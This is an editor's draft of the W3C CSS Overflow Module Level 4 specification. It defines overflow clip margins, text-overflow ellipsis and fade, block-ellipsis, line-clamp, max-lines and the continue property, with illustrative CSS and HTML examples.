- **Shortname:** `css-overflow-4`
- **Editor's Draft:** [https://drafts.csswg.org/css-overflow-4/](https://drafts.csswg.org/css-overflow-4/)
- **Published TR:** [https://www.w3.org/TR/css-overflow-4/](https://www.w3.org/TR/css-overflow-4/)
- **W3C Status:** ED (revising)
- **Last Edited:** 2026-11-15
- **Diff Specification Over:** [CSS Overflow Module Level 3 (`css-overflow-3`)](#css-overflow-3)

### 1.  Introduction {#css-overflow-4:intro}

This specification extends [CSS-OVERFLOW-3]. It contains several primary sections:

**[Overflow Scrolling and Clipping Controls](#css-overflow-4:overflow-properties)**

: This section defines relatively simple extensions to the `overflow-*` properties [in Level 3](#css-overflow-3:overflow-properties).

**[Automatic Ellipses](#css-overflow-4:auto-ellipsis).**

: This section defines some experimental extensions to the `*-ellipsis` properties [in Level 3](#css-overflow-3:auto-ellipsis).

> **Note:** At the time of writing, [CSS-OVERFLOW-3] is not completely finalized yet. To avoid accidental divergences and maintenance overhead, This specification is written as a delta specification over css-overflow Level 3. Once the level 3 specification is final, its content will be integrated into this specification, which will then replace it. Until then, this specification only contains additions and extensions to level 3.

#### 1.1.  Value Definitions {#css-overflow-4:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

#### 1.2.  Module Interactions {#css-overflow-4:placement}

This module extends features defined in [CSS-OVERFLOW-3].

### 2.  Overflow Concepts and Terminology {#css-overflow-4:overflow-concepts}

> **Issue:** Copy [Level 3 content](#css-overflow-3:overflow-concepts) when final.

### 3.  Scrolling and Clipping Overflow {#css-overflow-4:overflow-properties}

> **Issue:** Copy [Level 3 content](#css-overflow-3:overflow-properties) when final.

#### 3.1.  Managing Overflow: the `overflow-x`, `overflow-y`, and `overflow` properties {#css-overflow-4:overflow-control}

This level extends the `overflow-x` and `overflow-y` properties (and `overflow` shorthand) to apply to replaced elements.

On replaced elements, the used values of all computed values other than `visible` is `clip`. Host languages should define UA style sheet rules that apply a default value of `clip` to such elements and set their `overflow-clip-margin` to `content-box`.

> **Note:** Application of `overflow` to replaced elements was added to allow images to paint effects outside their effective layout box; the recommended UA style sheet rules are to effect their original behavior as a default. See discussion in [Issue 7059](https://github.com/w3c/csswg-drafts/issues/7058) and [Issue 7144](https://github.com/w3c/csswg-drafts/issues/7144). This is a change from [CSS2.1](#css2) and is at-risk.

> **Issue:** Application of `overflow` to replaced elements is still being worked out. [[Issue #7144]](https://github.com/w3c/csswg-drafts/issues/7144)

#### 3.2.  Changing Clipping Bounds: the `overflow-clip-margin-*` properties {#css-overflow-4:overflow-clip-margin}

| Field | Value |
| --- | --- |
| Name: | **overflow-clip-margin-top**, **overflow-clip-margin-right**, **overflow-clip-margin-bottom**, **overflow-clip-margin-left**, **overflow-clip-margin-block-start**, **overflow-clip-margin-inline-start**, **overflow-clip-margin-block-end**, **overflow-clip-margin-inline-end** |
| [Value:](#css-values-4:value-defs) | `<visual-box>` \|\| `<length>` |
| [Initial:](#css-cascade-6:initial-values) | `0px` |
| [Applies to:](#css-cascade-5:applies-to) | boxes to which `overflow` applies |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | the computed `<length>` and a `<visual-box>` keyword |
| [Animation type:](#web-animations-1:animation-type) | per computed value if the `<visual-box>` values match; otherwise discrete |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Logical property group:](#css-logical-1:logical-property-group) | `overflow-clip-margin` |

| Field | Value |
| --- | --- |
| Name: | **overflow-clip-margin**, **overflow-clip-margin-inline**, **overflow-clip-margin-block** |
| [Value:](#css-values-4:value-defs) | `<visual-box>` \|\| `<length>` |
| [Initial:](#css-cascade-6:initial-values) | `0px` |
| [Applies to:](#css-cascade-5:applies-to) | boxes to which `overflow` applies |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

These properties and their shorthands define the **overflow clip edge** of the box, i.e. precisely *how far* outside its bounds the box’s content is allowed to paint before being clipped by effects (such as `overflow: clip`, above) that are defined to clip to the box’s overflow clip edge. The shorthand/longhand relationships are as for `margin`, but note that the shorthands have a restricted syntax.

Values are defined as follows:

****`<visual-box>`****

: Specifies the box edge to use as the overflow clip edge origin, i.e. when the specified offset is zero.

  If omitted, defaults to `padding-box` on non-replaced elements, or `content-box` on replaced elements.

  > **Issue:** Application of `overflow-clip-margin` to replaced elements is still being worked out. [[Issue #7144]](https://github.com/w3c/csswg-drafts/issues/7144)

****`<length>`****

: The specified offset dictates how much the overflow clip edge is expanded from the specified box edge. Negative values shrink the box, instead. Defaults to zero if omitted.

The overflow clip edge is shaped in the corners exactly the same way as an outer box-shadow with a spread radius of the same cumulative offset from the box’s border edge. See [CSS Backgrounds 3 § 4.2 Corner Shaping](#css-borders-4:corner-shaping) and [CSS Backgrounds 3 § 6.1.1 Shadow Shape, Spread, and Knockout](#css-borders-4:shadow-shape), noting in particular the formula for outsets beyond the border edge.

### 4.  Automatic Ellipses {#css-overflow-4:auto-ellipsis}

#### 4.1.  Inline Overflow Ellipsis: the `text-overflow` property {#css-overflow-4:text-overflow}

| Field | Value |
| --- | --- |
| Name: | **text-overflow** |
| [Value:](#css-values-4:value-defs) | [ clip \| ellipsis \| `<string>` \| fade \| `<fade()>` ]{1,2} |
| [Initial:](#css-cascade-6:initial-values) | clip |
| [Applies to:](#css-cascade-5:applies-to) | block containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to the width of the line box |
| [Computed value:](#css-cascade-6:computed) | as specified, with lengths made absolute |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

> **Issue:** This section might need to be re-synced against [CSS-OVERFLOW-3].

This property specifies rendering when inline content overflows its line box edge in the inline progression direction of its block container element ("the block") that has `overflow` other than `visible`.

Even though this property is not inherited, anonymous block container boxes generated to establish the line box’s inline formatting context (see block container) are ignored, and the value of the property that applies is the one on the non anonymous box. This can be seen in the “nested paragraph” part of [text-overflow examples](#css-overflow-4:example-a4ab7902): even though the word “NESTED” is wrapped in an anonymous block container whose `text-overflow` property has the initial value, it is ellipsed.

Text can overflow for example when it is prevented from wrapping (e.g. due to `white-space: nowrap` or a single word is too long to fit). Values have the following meanings:

****clip****

: Clip inline content that overflows its block container element. Characters may be only partially rendered.

****ellipsis****

: Render an ellipsis character (U+2026) to represent clipped inline content. Implementations may substitute a more language, script, or writing-mode appropriate ellipsis character, or three dots "..." if the ellipsis character is unavailable.

**`<string>`**

: Render the given string to represent clipped inline content.

  All forced line breaks inside the specified string (regardless of `white-space` value) must be collapsed, as defined for collapsible segment breaks in [CSS Text 3 § 4.1.3 Segment Break Transformation Rules](#css-text-4:line-break-transform).

****fade( [ `<length-percentage>` ] )****

: Clip inline content that overflows its line box. Characters may be only partially rendered. In addition, the UA must apply a fade out effect near the edge of the line box, reaching complete transparency at the edge.

  > **Issue:** Do we need to define the way the fade out is calculated so that the fading is identical across browsers? It should probably be something like `mask-image: linear-gradient(to right, rgba(0,0,0,1), rgba(0,0,0,0))`, except applied to the relevant portion of the line only.

  The argument determines the distance over which the fade effect is applied. The `<percentage>` is resolved against the width of the line box. Values lower than 0 are clipped to 0. Values greater than the width of the line box are clipped to the width of the line box.

  > **Issue:** If the line box is too short to display the fade effect at the desired length, should we drop the effect, or shrink the distance it is applied over until it fits, or clip the end of the fade?

  > **Issue:** How should we deal with things overflowing out of the line box, or overlapping onto it? Should fade apply to the logical content of the line, or to the physical area of the line box, or the intersection of both?

****fade****

: Same as `fade()`, but the distance over which the fading effect is applied is determined by the UA. `1em` is suggested as a reasonable value.

The term "character" is used in this property definition for better readability and means "grapheme cluster" [UAX29] for implementation purposes.

If there is one value, it applies only to the end line box edge. If there are two values, the first value applies to the line-left edge, and the second value applies to the line-right edge. The terms end, line-left and line-right are defined in [CSS-WRITING-MODES-3].

> **Note:** the use of line-left and line-right rather than start and end when there are two values is intentional, to facilitate the use of directional characters such as arrows.

For the ellipsis and string values, implementations must hide characters and  [atomic inline-level elements](#css2:inline-boxes) at the applicable edge(s) of the line as necessary to fit the ellipsis/string, and place the ellipsis/string immediately adjacent to the applicable edge(s) of the remaining inline content.

In order to avoid jitter in the position of the ellipsis as scrolling reveals more content, user agents may adjust the position of the ellipsis to be adjacent to the end of the line, or may fade/hide the ellipsis during scrolling.

The first character or  [atomic inline-level element](#css2:inline-boxes) on a line must be clipped rather than ellipsed.

> **Example:** #### Bidi ellipsis examples {#css-overflow-4:bidi-ellipsis}
>
> These examples demonstrate which characters get hidden to make room for the ellipsis in a bidi situation: those visually at the edge of the line.
>
> Sample CSS:
>
> ```
> div {
>   font-family: monospace;
>   white-space: pre;
>   overflow: hidden;
>   width: 9ch;
>   text-overflow: ellipsis;
> }
> ```
>
> Sample HTML fragments, renderings, and your browser:
>
> | HTML | Reference rendering | Your Browser |
> | --- | --- | --- |
> | `<div>שלום 123456</div>` | 123456 ם… | שלום 123456 |
> | `<div dir=rtl>שלום 123456</div>` | …456 שלום | שלום 123456 |

#### ellipsing details {#css-overflow-4:ellipsing-details}

- Ellipsing only affects rendering and must not affect layout nor dispatching of pointer events: The UA should dispatch any pointer event on the ellipsis to the elided element, as if `text-overflow` had been `none`.
- The ellipsis is styled and baseline-aligned according to the block.
- If a line has a block overflow ellipsis, then any handling relating to it, including displacing content from the end of the line, occurs first. If the line still overflows after that (e.g. because the block overflow ellipsis is too long), then it is ellipsed according to the `text-overflow` property.
- Ellipsing occurs after relative positioning and other graphical transformations.
- If there is insufficient space for the ellipsis, then clip the rendering of the ellipsis itself (on the same side that neutral characters on the line would have otherwise been clipped with the `text-overflow:clip` value).
- For bidi purposes, the ellipsis and string values must be treated as if they were wrapped in an anonymous inline with `unicode-bidi: isolate` which inherits `direction` from the bidi paragraph.

#### user interaction with ellipsis {#css-overflow-4:ellipsis-interaction}

- When the user is interacting with content (e.g. editing, selecting, scrolling), the user agent may treat `ellipsis`, string values, `fade` or `fade()` as `text-overflow:clip`.
- Selecting the ellipsis should select the ellipsed text. If all of the ellipsed text is selected, UAs should show selection of the ellipsis. Behavior of partially-selected ellipsed text is up to the UA.

> **Example:** #### text-overflow examples {#css-overflow-4:text-overflow-examples}
>
> These examples demonstrate setting the text-overflow of a block container element that has text which overflows its dimensions:
>
> sample CSS for a div:
>
> ```
> div {
>   font-family: Helvetica, sans-serif;
>   line-height: 1.1;
>   width: 3.1em;
>   border: solid .1em black;
>   padding: 0.2em; margin:1em 0;
> }
> ```
>
> sample HTML fragments, renderings, and your browser:
>
> | HTML | sample rendering | your browser |
> | --- | --- | --- |
> | `<div> CSS IS AWESOME, YES </div>` | First, a box with text drawing outside of it. | CSS IS AWESOME, YES |
> | `<div style="text-overflow:clip; overflow:hidden"> CSS IS AWESOME, YES </div>` | Second, a similar box with the text clipped outside the box. | CSS IS AWESOME, YES |
> | `<div style="text-overflow:ellipsis; overflow:hidden"> CSS IS AWESOME, YES </div>` | Third, a similar box with an ellipsis representing the clipped text. | CSS IS AWESOME, YES |
> | `<div style="text-overflow:ellipsis; overflow:hidden"> NESTED <p>PARAGRAPH</p> WON'T ELLIPSE. </div>` | Fourth, a box with a nested paragraph demonstrating anonymous block boxes equivalency and non-inheritance into a nested element. | NESTED PARAGRAPH WON’T ELLIPSE. |
> | `<div style="text-overflow:fade; overflow:hidden"> CSS IS AWESOME, YES </div>` | a box with the text fading out on overflow. | CSS IS AWESOME, YES |

> **Note:** the side of the line that the ellipsis is placed depends on the `direction` of the block. E.g. an overflow hidden right-to-left (`direction: rtl`) block clips inline content on the left side, thus would place a text-overflow ellipsis on the left to represent that clipped content.

> **Issue:** insert RTL example diagram here to illustrate note.

#### ellipsis interaction with scrolling interfaces {#css-overflow-4:ellipsis-scrolling}

This section applies to elements with text-overflow other than `text-overflow:clip` (non-clip text-overflow) and overflow:scroll.

When an element with non-clip text-overflow has overflow of scroll in the inline progression dimension of the text, and the browser provides a mechanism for scrolling (e.g. a scrollbar on the element, or a touch interface to swipe-scroll, etc.), there are additional implementation details that provide a better user experience:

When an element is scrolled (e.g. by the user, DOM manipulation), more of the element’s content is shown. The value of text-overflow should not affect whether more of the element’s content is shown or not. If a non-clip text-overflow is set, then as more content is scrolled into view, implementations should show whatever additional content fits, only truncating content which would otherwise be clipped (or is necessary to make room for the ellipsis/string), until the element is scrolled far enough to display the edge of the content at which point that content should be displayed rather than an ellipsis/string.

> **Example:** This example uses text-overflow on an element with overflow scroll to demonstrate the above described behavior.
>
> sample CSS:
>
> ```
> div.crawlbar {
>   text-overflow: ellipsis;
>   height: 2em;
>   line-height: 1em;
>   overflow: scroll;
>   white-space: nowrap;
>   width: 15em;
>   border:1em solid black;
> }
> ```
>
> sample HTML fragment:
>
> ```
> <div class="crawlbar">
> CSS is awesome, especially when you can scroll
> to see extra text instead of just
> having it overlap other text by default.
> </div>
> ```
>
> demonstration of sample CSS and HTML:
>
> CSS is awesome, especially when you can scroll to see extra text instead of just having it overlap other text by default.

As some content is scrolled into view, it is likely that other content may scroll out of view on the other side. If that content’s block container element is the same that’s doing the scrolling, and the computed value of `text-overflow` has two values, with the value applying to the start edge being a non-clip value, then implementations must render an ellipsis/string in place of the clipped content, with the same details as described in the value definition above, except that the ellipsis/string is drawn in the start (rather than end) of the block’s direction (per the direction property).

While the content is being scrolled, implementations may adjust their rendering of ellipses/strings (e.g. align to the box edges rather than line edges).

> **Example:** Same as previous example except with `text-overflow: ellipsis ellipsis`, demonstrated:
>
> CSS is awesome, especially when you can scroll to see extra text instead of just having it overlap other text by default.

If there is insufficient space for both start and end ellipses/strings, then only the end ellipsis/string should be rendered.

#### 4.2.  Indicating Block-Axis Overflow: the `block-ellipsis` property {#css-overflow-4:block-ellipsis}

| Field | Value |
| --- | --- |
| Name: | **block-ellipsis** |
| [Value:](#css-values-4:value-defs) | no-ellipsis \| ellipsis \| `<string>` |
| [Initial:](#css-cascade-6:initial-values) | no-ellipsis |
| [Applies to:](#css-cascade-5:applies-to) | block containers |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property allows inserting content into the last line box before a clamp point or a (forced *or* unforced) region break to indicate the continuity of truncated / interrupted content. It only affects line boxes contained directly by the block container itself, but as it inherits, will have an effect on descendants’ line boxes unless overridden.

Ignoring any intervening absolutely positioned elements or element closing boundaries, this property affects a line box that immediately precedes a region break or a clamp point when both participate in the same independent formatting context.

> **Note:** See `continue: discard` for a way to generate boxes with such a region break.

> **Example:** ```html
> <div style="continue: collapse; block-ellipsis: ellipsis; max-height: 4lh">
>   <div>
>     <div>
>     Line 1 <br>
>     Line 2 <br>
>     Line 3 <br>
>     Line 4
>     <div class="abspos"></div>
>   </div>
>   <div class="abspos"></div>
>   </div>
>   <div class="abspos"></div>
>   <!-- the clamp point is here, not immediately after line 4 -->
>   Line 5
> </div>
> ```
>
> Here the clamp point is not immediately after a line box, but the only thing between it and the last line box are element closing boundaries and abspos, and both are in the same independent formatting context, so "Line 4" is ellipsized.

> **Example:** Meanwhile, in this example, there is an in-flow element between the line box and the clamp point, so no ellipsis is shown:
>
> ```html
> <div style="continue: collapse; block-ellipsis: ellipsis; max-lines: 2">
>   Line 1 <br>
>   Line 2
>   <div></div>
>   <!-- the clamp point is here -->
>   Line 3
> </div>
> ```

> **Example:** In this example, the last line box is contained in an independent formatting context, so no ellipsis will be shown:
>
> ```html
> <div style="continue: collapse; max-height: 2lh; block-ellipsis: ellipsis">
>   Line 1
>   <div style="display: flow-root">Line 2</div>
>   <!-- the clamp point is here -->
>   Line 3
> </div>
> ```

The inserted content is called the **block overflow ellipsis**. Values have the following meanings:

****no-ellipsis****

: The rendering is unaffected.

****ellipsis****

: Render an ellipsis character (U+2026)—​or a more typographically-appropriate equivalent—​as the block overflow ellipsis at the end of the affected line box. UAs should use the conventions of the content language, writing system, and writing mode to determine the most appropriate ellipsis string.

****`<string>`****

: Render the specified string as the block overflow ellipsis at the end of the affected line box. The UA may truncate this string if it is absurdly long.

  When set to the empty string, the behavior is identical to the `no-ellipsis` value.

  All forced line breaks inside the specified string (regardless of `white-space` value) must be collapsed, as defined for collapsible segment breaks in [CSS Text 3 § 4.1.3 Segment Break Transformation Rules](#css-text-4:line-break-transform).

When `block-ellipsis` is neither `no-ellipsis` nor the empty string, the block overflow ellipsis string is placed at the end of the line box reducing the space available to the other contents of the line.

More specifically:

- The block overflow ellipsis is wrapped in an anonymous inline whose parent is the block container’s root inline box. This inline is assigned `line-height: 0`.

  For bidi purposes, the block overflow ellipsis must be treated as an anonymous inline with `unicode-bidi: isolate`, with the same embedding level as the bidi paragraph, and which inherits `direction` from the bidi paragraph.
- The user agent makes room as necessary of the block overflow ellipsis by displacing content from the end of the line as if wrapping, until the last soft wrap opportunity (see [CSS-TEXT-3]) that would still allow the entire block overflow ellipsis to fit on the line, applying [CSS Text 4 § 4.3 The White Space Processing Rules](#css-text-4:white-space-rules) including [CSS Text 4 § 4.3.2 Phase II: Trimming and Positioning](#css-text-4:white-space-phase-2) before insertion.

  For this purpose, soft wrap opportunities added by `overflow-wrap` are ignored, as are those inhibited by `text-wrap-mode: nowrap`.

  If this results in the entire contents of the line box being displaced, the line box is considered to contain a strut styled according to the root inline box, as defined in [CSS 2 § 10.8.1 Leading and half-leading](#css2:leading).  This requirement applies regardless of the document’s mode, and is not affected by the [line-height quirk](https://quirks.spec.whatwg.org/#the-blocks-ignore-line-height-quirk).

  Displacing content to make room for the block overflow ellipsis can cause the logical height of line box where it is inserted to shrink. This must not cause a reevaluation of the effects of the `continue` property and must not change which line box is the last one before the truncated content.

  The user agent must not attempt to make room for the ellipsis by other means that displacing content from the end of the line; notably, user agent must not shift down the line box where the ellipsis is to be placed in order to clear a float or to be positioned in a wider subsequent fragmentation container even if that would increase the available width.
- The anonymous inline of block overflow ellipsis is placed after any remaining content, after [CSS Text 4 § 4.3.2 Phase II: Trimming and Positioning](#css-text-4:white-space-phase-2), as a direct child of the block container’s root inline box.
- Sequences of white space, other space separators and/or preserved tabs at the end of the line that would hang (conditionally or not) had the ellipsis not been inserted get removed, and the ellipsis is then inserted.

  The ellipsis is subject to the effects of the 'hanging punctuation' property.

  > **Note:** When the ellipsis is inserted after punctuation, that punctuation itself is no longer at the end of the line and thus cannot hang.
- Normally, if a line box that would have been placed next to a float is too short to contain any content, it is shifted downward until either some content fits or there are no more floats present. (See [Cascading Style Sheets Level 2 Revision 1 (CSS 2.1) Specification § floats](#css2:floats)). However, if, after displacing content to make room for the ellipsis and inserting the ellipsis, the content would be short enough for the line box to fit next to the float, the user agent must not shift the line box down, and must keep it at its original position.

Text [alignment and justification](#css-text-4:justification) occurs after placement, and measures the inserted block overflow ellipsis together with the rest of the line’s content.

> **Note:** Setting the block overflow ellipsis’s `line-height` to `0` makes sure that inserting it cannot cause the line’s height to grow, which could cause further relayouts and potentially cycles. This is almost equivalent to inserting the block overflow ellipsis as a paint-time operation, except that it still participates in alignment and justification. The downside is that unusually tall / deep glyphs in the block overflow ellipsis may overflow.

The block overflow ellipsis must not be included in either the `::first-letter` nor the `::first-line` pseudo-elements.

If the block overflow ellipsis is placed before a region break and there is a subsequent fragmentation container in the fragmentation context that would receive subsequent content, then the content displaced by the block overflow ellipsis must be pushed to that fragmentation container. If it is placed before a clamp point, then the displaced content must be pushed to the remainder of the inline formatting context.

The UA must treat the block overflow ellipsis as an unbreakable string, If any part of the block overflow ellipsis overflows, it is treated as scrollable overflow, and its rendering is affected by the `text-overflow` property.

The block overflow ellipsis does not capture events: pointer events are dispatched to whatever is underneath it.

It also has no effect on the intrinsic size of the box: its min-content and max-content sizes are calculated exactly as if `block-ellipsis` were `no-ellipsis`.

> **Note:** Future specifications may extend this feature, for example by providing an `::ellipsis` pseudo-element to style the text, or by allowing the selection of a child element of the block to use as either an inline-level or block-level indicator (in which case, it can capture events).

### 5.  Suppressing Excess Content {#css-overflow-4:suppressing-excess}

#### 5.1.  Limiting Visible Lines: the `line-clamp` shorthand property {#css-overflow-4:line-clamp}

| Field | Value |
| --- | --- |
| Name: | **line-clamp** |
| [Value:](#css-values-4:value-defs) | none \| [`<integer [1,∞]>` \|\| auto \|\| `<'block-ellipsis'>`] `-webkit-legacy`? |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `line-clamp` property is a shorthand for the `max-lines`, `block-ellipsis`, and `continue` properties.

It allows limiting the contents of a block container to the specified number of lines; remaining content is fragmented away and neither rendered nor measured. Optionally, it also allows inserting content into the last line box to indicate the continuity of truncated/interrupted content.

The values have the following meaning:

****none****

: Sets `max-lines` to `auto`, `continue` to `normal`, and `block-ellipsis` to `no-ellipsis`.

**`<integer [1,∞]>` **auto** **`<'block-ellipsis'>`****

: Sets `continue` to `collapse` if one or more of the three values are specified, unless the `-webkit-legacy` keyword is also specified (see below).

  Sets `block-ellipsis` to the corresponding value if specified, or to `ellipsis` otherwise.

  Sets `max-lines` to the the specified integer or to `auto` if either are specified, or to the combination (in cannonical order) if both are, or to `auto` if both are ommitted

****-webkit-legacy****

: Sets `continue` to `-webkit-legacy`.

See the corresponding longhand properties for details about how this mechanism operates.

> **Example:** In this example, the lead paragraph of each article is listed in a shortened menu, truncated to fit within 5 lines that end with “… (continued on next page)”:
>
> ```
> li {
>   line-clamp: 5 "… (continued on next page)";
> }
> strong {
>   display: block;
>   text-transform: uppercase;
> }
> ```
>
> ```
> <li><a href="cheese-is-milk">
>   <strong>Cheese is Actually Made of Milk!</strong>
>   Investigative reporters at the World Wide Web Press Corps
>   have discovered the secret of cheese.
>   Tracing through byzantine layers of bureaucracy and shadow corporations,
>   our crack team of journalists have traced the source of camembert.
> </a></li>
> ```
>
> Sample rendering:
>
> ```
> +---------------------------------------+
> | CHEESE IS ACTUALLY MADE OF MILK!      |
> | Investigative reporters at the World  |
> | Wide Web Press Corps have discovered  |
> | the secret of cheese. Tracing through |
> | byzantine…  (continued on next page)  |
> +---------------------------------------+
> ```

##### 5.1.1.  Legacy compatibility {#css-overflow-4:webkit-line-clamp}

For compatibility with legacy content, UAs that support `line-clamp` must also support the `-webkit-line-clamp` property and the additional `-webkit-legacy` value for the `continue` property.

| Field | Value |
| --- | --- |
| Name: | **-webkit-line-clamp** |
| [Value:](#css-values-4:value-defs) | none \| `<integer [1,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

| Field | Value |
| --- | --- |
| Name: | `continue` |
| [New values:](#css-values-4:value-defs) | -webkit-legacy |

Like `line-clamp`, `-webkit-line-clamp` is a shorthand of `max-lines`, `block-ellipsis`, and `continue`, except that:

- its syntax is `none` | `<integer [1,∞]>`
- it sets `block-ellipsis` to `no-ellipsis` if `-webkit-line-clamp` is `none`, and to `ellipsis` otherwise.
- it sets `continue` to `-webkit-legacy` instead of `collapse` when an `<integer [1,∞]>` is specified (as if the `-webkit-legacy` keyword was set on `line-clamp`)

The **-webkit-legacy** value behaves identically to `collapse`, except that it only takes effect if the specified value of the `display` property is `-webkit-box` or `-webkit-inline-box` and the value of the `-webkit-box-orient` property is `vertical`.

> **Note:** Implementations of the legacy `-webkit-line-clamp` property have not behaved identically to what is specified here. The historical behavior is quirky and less robust, as documented for example in [this blog post](https://medium.com/mofed/css-line-clamp-the-good-the-bad-and-the-straight-up-broken-865413f16e5). The current design learns from the mistakes of that early experiment, and is intended to be sufficiently compatible with existing content that implementations can eventually be changed to follow to the specified behavior. If further adjustments are found to be necessary, they will be incorporated to this specification. In the meanwhile, authors should be aware that there may be discrepancies.

#### 5.2.  Forcing a Break After a Set Number of Lines: the `max-lines` property {#css-overflow-4:max-lines}

| Field | Value |
| --- | --- |
| Name: | **max-lines** |
| [Value:](#css-values-4:value-defs) | `<integer [1,∞]>` \|\| auto |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | block containers which are also either line-clamp containers or fragmentation containers that capture region breaks |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the keyword `auto`, or an integer, or both |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

The `max-lines` property sets the clamp point of a line-clamp container, or forces a region break on a fragmentation container. Values have the following meanings:

****`<integer [1,∞]>`****

: Given an integer *N*, if the box is a line-clamp container, it has an **line-based clamp point**, set to the first clamp opportunity after its *N*th descendant in-flow line box. If fewer than *N* line boxes exist, or if there are no clamp opportunities after the *N*th descendant in-flow line box, then that line-clamp container has no line-based clamp point.

  > **Note:** if the line-clamp container has exactly *N* lines, and there are no boxes after the *N*th line, then there are no clamp opportunities after it, so there cannot be a clamp point.

  If the box is instead a fragmentation container that captures region breaks, then a region break is forced after its *N*th descendant in-flow line box. If fewer than *N* line boxes exist, then `max-lines` introduces no region break.

  Only line boxes in the same block formatting context are counted: the contents of descendants that establish independent formatting contexts are skipped over while counting line boxes.

  > **Note:** This implies that `max-lines` has no effect when applied to multi-column containers, since any line box they contain are nested into independent formatting contexts.

  Only positive integers are accepted. Zero or negative integers are invalid and must cause the declaration to be ignored.

****auto****

: If the box is a line-clamp container, it has an **auto clamp point**, set to the last clamp opportunity such that, for it and all previous clamp opportunities, the container’s automatic block size (as determined in [§ 5.3.1 Line-clamp containers](#css-overflow-4:line-clamp-containers)) is not greater than the block size the box would have if its automatic block size were infinite. If the block size would be infinite, then there is no auto clamp point.

If the box is a line-clamp container, then its chosen clamp point is either its line-based clamp point or its auto clamp point. If both exist, then whichever comes earlier takes precedence. If neither exist, then there is no clamp point.

> **Note:** The `widows`, `orphans`, and `break-inside` properties do not affect the position of the forced region break introduced by the `max-lines` property.

> **Note:** Despite the “region break” name, this is not a dependency on [CSS-REGIONS-1]. The word “region” is only used as a classifier for forced breaks: they can be “page breaks” (breaks across pages [css-page-3]), “column breaks” (breaks across multi-column layout columns [css-multicol-1]), or “region breaks” (breaks across any other kind of CSS-induced fragmentation containers).
>
> If an implementation supports neither [CSS-REGIONS-1] nor `continue: discard`, then it will have had no occasion yet to run into that kind of breaks, and this will be an addition. However the addition does not involve bringing over any of the [CSS-REGIONS-1] functionality. All that is needed is:
>
> - be able to fragment
> - classify these fragmentation containers as “Category 3” (i.e. not pages nor columns) for the purpose of forced breaks.

#### 5.3.  Handling of Excess Content: the `continue` property {#css-overflow-4:continue}

| Field | Value |
| --- | --- |
| Name: | **continue** |
| [Value:](#css-values-4:value-defs) | normal \| discard \| collapse |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | block containers and multicol containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `continue` property gives authors the ability to truncate/interrupt the content inside a box, either by visually suppressing the remaining content, or by turning the box into a fragmentation container (see [CSS-BREAK-3]) and discarding the content after the fragmentation break.

****normal****

: If the box has more content than can fit, the excess content is handled according to the usual rules.

****collapse****

: If the box is a block container, then it must establish an independent formatting context that also becomes a line-clamp container. This causes all content after the clamp point to be visually suppressed, and to not be taken into account for the box’s automatic block size (see [§ 5.3.1 Line-clamp containers](#css-overflow-4:line-clamp-containers) for details).

  **Visually suppressed** content is treated as content hidden by `overflow: clip`, and unlike content made invisible by `visibility: hidden` or excluded from the box tree by `display: none`: it is not painted, and like ink overflow, does not affect layout or otherwise extend the scrollable overflow area. However, it remains part of of sequential focus navigation, and remains exposed through the accessibility tree. Any overflow visually suppressed boxes and line boxes might have is itself counted as ink overflow rather than scrollable overflow.

  > **Note:** This differs from the `display: none`-like behavior of not rendered content with `continue: discard`.

  If the box is a multicol container, the behavior is the same as `normal`.

****discard****

: The box must establish an independent formatting context and becomes a fragmentation container that captures region breaks, if it is not already. [CSS-BREAK-3] Content after the first region break is not rendered.

  > **Note:** This region break might be forced (e.g. imposed by `max-lines` or by another mechanism, such as the `break-before`/`break-after` properties) or unforced (e.g. if the content would otherwise overflow this fragmentation container due to its size constraints). Breaks applying to other fragmentation contexts (such as pagination of this box itself) do not cause any content to be discarded.

  See [§ 5.3.2 Discarding Content](#css-overflow-4:discarding-content) for further details.

